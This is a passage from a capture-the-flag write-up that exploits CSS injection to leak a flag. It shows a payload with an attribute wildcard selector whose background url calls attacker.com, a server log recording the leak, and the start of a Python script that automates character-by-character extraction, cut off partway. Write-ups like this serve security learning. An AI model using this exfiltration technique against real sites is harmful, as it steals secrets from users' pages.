 ![](assets/style.png)

Here the tags are replaced instead of encoding. Testing URL encoding didn't worked as well. But we have possible context where we can inject CSS. Reading some references we can find [this](https://www.invicti.com/blog/web-security/private-data-stolen-exploiting-css-injection/) awesome blogpost which shows we can steal sensitive data with style. Let's hack with style :muscle:

Guessing the flag could be in one of locker keys, we can try to retrieve its value using CSS wild card selectors. Lets test if this is the case. 

```html
green;}input[name="key"][value*="ACVCTF{"] {
      background: url(https://attacker.com/?ACVCTF{)
```

We can use this payload to test. Stand up [ngrok](https://ngrok.com/) on port 80 replace url with ngrok URL. 

```bash
sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
127.0.0.1 - - [21/Apr/2022 06:11:45] "GET /?ACTCTF{ HTTP/1.1" 200 -
```

After 2-3mins we get a hit from server saying that the flag is present in one of locker keys. Using wild card search we can loop over alphabets and digits finding char by char. Manually it takes good amount of time to enumerate the flag. This can be automated to reduce manual efforts.  

```python
#!/usr/bin/python3
import string
import requests
from pwn import *
from time import sleep
import concurrent.futures
from bs4 import BeautifulSoup

requests.packages.urllib3.disable_warnings()

url = 'https://3.23.94.118:9002/cell-dev'
flag = 'ACVCTF{'

def trigger(url,flag,c):
	# Drop the payloads
```
